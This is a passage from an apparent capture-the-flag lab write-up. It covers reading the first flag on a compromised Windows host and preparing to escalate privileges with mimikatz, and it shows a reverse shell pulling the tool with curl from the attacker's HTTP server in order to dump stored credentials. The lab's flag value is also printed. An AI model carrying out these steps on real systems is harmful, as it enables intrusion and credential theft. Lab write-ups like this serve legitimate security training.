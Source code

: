This confirmed successful remote code execution with an interactive Windows shell.


## Capturing the First Flag

Navigating to the user desktop directory for `wrohit`, I found a file named `flag.txt`. Reading its contents revealed the first flag:

```console
C:\Users\wrohit\Desktop>dir    
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\wrohit\Desktop

03/11/2024  05:14 AM    <DIR>          .
03/11/2024  05:14 AM    <DIR>          ..
03/11/2024  05:15 AM                25 flag.txt
               1 File(s)             25 bytes
               2 Dir(s)  13,994,991,616 bytes free

C:\Users\wrohit\Desktop>type flag.txt
type flag.txt
THM{l1v1n_7h3_br1ck_l1f3}
C:\Users\wrohit\Desktop>
```

## Privilege Escalation with Mimikatz


The challenge hinted at dumping credentials stored in memory to escalate privileges. As an administrator, I proceeded to upload the well-known tool `mimikatz` to the compromised machine.

I started a Python HTTP server on my attacking machine to serve the mimikatz binary:

```console
┌──(kali㉿kali)-[/usr/share/windows-resources/mimikatz/x64]
└─$ ls
mimidrv.sys  mimikatz.exe  mimilib.dll  mimispool.dll
 ```                                         
 
 ```                        
┌──(kali㉿kali)-[/usr/share/windows-resources/mimikatz/x64]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.189.66 - - [01/Jun/2025 15:33:02] "GET /mimikatz.exe HTTP/1.1" 200 -
10.10.189.66 - - [01/Jun/2025 15:33:49] "GET /mimikatz.exe HTTP/1.1" 200 -
```

From the reverse shell, I downloaded mimikatz:

```console
C:\Users\wrohit\Desktop>curl http://10.23.106.242:1337/mimikatz.exe -o mimikatz.exe
```
